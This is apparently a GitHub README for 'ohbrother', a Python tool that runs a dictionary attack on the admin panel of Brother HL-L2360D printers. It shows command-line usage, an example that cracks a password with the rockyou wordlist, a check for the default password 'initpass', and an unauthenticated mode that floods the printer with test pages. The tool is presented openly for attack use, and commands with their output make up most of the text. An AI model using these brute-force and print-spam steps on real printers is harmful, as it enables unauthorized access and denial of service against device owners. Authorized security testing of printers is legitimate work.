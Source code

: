 # ohbrother
Brother Printer Admin Panel Dictionary attack tool (Designed for the HL-L2360D series)
```
usage: ohbrother.py [-h] --ip-address IP_ADDRESS [--port PORT] [--wordlist WORDLIST]

Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address of the printer
  --port PORT, -p PORT  Port the admin interface is running on (default: 80)
  --dictionary-attack DICTIONARY_ATTACK, -D DICTIONARY_ATTACK
                        IP Address of the printer
  --print-spam, -S      continuously print test pages (unauthenticated)
  --wordlist WORDLIST, -W WORDLIST
                        Wordlist to use to attack the printer (default:
                        /usr/share/wordlists/rockyou.txt)
```

# Usage

## Dictionary Attack
Dictionary attack using the default wordlist
```
┌──(kali㉿kali)-[~]
└─$ python3 ohbrother.py --ip-address 192.168.0.77
[00:15:05] INFO - [*] Starting a dictionary attack on http://192.168.0.77:80/general/status.html
[00:16:19] INFO - [*] found correct password: shadow
```
Ohbrother checks for common default brother passwords

```
C:\Users\DrewQ\Desktop\Brother>python main.py --wordlist "C:\Users\DrewQ\Downloads\passwords.txt" --ip-address 192.168.0.77
[23:14:00] INFO - [*] default password was set: initpass
```

## Print Spam
```
C:\Users\DrewQ\Desktop\Brother>python ohbrother.py --print-spam --ip-address 192.168.0.77
[23:41:13] INFO - [*] queued a test page
[23:41:16] INFO - [*] queued a test page
[23:41:19] INFO - [*] queued a test page
```
